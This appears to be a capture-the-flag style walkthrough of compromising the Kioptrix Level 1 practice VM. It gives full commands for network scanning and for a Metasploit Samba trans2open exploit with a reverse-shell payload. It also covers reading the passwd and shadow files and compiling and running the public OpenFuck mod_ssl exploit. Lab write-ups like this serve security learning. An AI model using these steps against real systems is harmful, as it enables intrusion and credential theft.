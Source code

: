 # Kioptrix-level 1
(Screenshots are going to be seperate)
Hey so I'm going to be be going over the process of pwning kioptrix level 1 vulnhub machine. So I started off by using Arpscan to scan for available devices so:
```arp-scan -l```
Then I was going to identify it using the MAC address, so in my case I was looking on all possible vendors and eliminating what's not useful. So in my case the MAC address was ```1a:c0:1e:91:41:b9``` you can usually also lookup MAC addresses online because first 3 octets identify the vendor so whatever comes from a specific vendor has the sama first 3 octets (OUI or Organizational Unique Identifier) and the last 3 (NIC or Network Interface Controller) are special for each device. So in my case it was unknown for the vendor possibly because it was hosted on a vm. So in the Arp scan along with the MAC address you get an IP address in my case it was ```192.168.1.44```. Then my next step was to scan that IP address using NMAP to see possible open ports and other information so I used ```nmap -T4 -A -p- 192.168.1.44``` or for realistic taste you can try ```nmap -T4 -sS -A -p- 192.168.1.44``` and the latter I added the "-sS" for stealth scan. So in my results I had 6 open tcp ports (22, 80, 111, 139, 443, 32768). So I ran nikto then went to watch the http and https: ```nikto -h http://192.168.1.44``` as I went to the website it was a default apache page so if that was a real pentest that would give us an idea about the hygiene of the client (awful). In most cases that http with poor hygiene is a finding but after I ran dirbuster it turned it that it didn't have anything important. So we also have the smb port open very important we can run metasploit to scan the version so:
```msfconsole```
```use auxiliary/scanner/smb/smb_version```
```options```
```set RHOSTS 192.168.1.44```
```run```
So the results we got that it's running "Unix (Samba 2.2.1a)"
we can google "Unix (Samba 2.2.1a) exploits" or we can try to login with smbclient to the address (but it failed).
So it's possibly vulnerable to "Samba trans2open Overflow (Linux x86)" by rapid 7 (metasploit) so let's see:
```msfconsole```
```use exploit/linux/samba/trans2open```
```option```
```set LHOST```
```set RHOSTS```
```run``` or ```exploit```
Most likely it's not going to work so a soultion that has worked to me was to change the current payload "linux/x86/shell_reverse_tcp" so :
```set payload linux/x86/shell_reverse_tcp```
```run``` or ```exploit```
Then Most likely you will have a shell. From here you can ```cd``` until you get to home then ```cd etc``` then ```cat passwd``` and ```cat shadow```
So that's the metasploit route, now let's try to use a manual exploit. So in the scanning I found "mode SSL" on https (Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b). So I looked on google for compatible exploits and found "OpenLuck" on github by heltonWernik. So follow the direction ->
```git clone https://github.com/heltonWernik/OpenFuck.git```
```apt-get install libssl-dev```
```gcc -o OpenFuck OpenFuck.c -lcrypto```
```./OpenFuck```
Now we are going to start using the exploit
```./OpenFuck 0x6b 192.168.1.44 -c 40```
You should get a shell
then try things like:
```whoami```
```hostname```
So that was it for this machine, I hope y'all learned something or more and hopefully there will be more content.
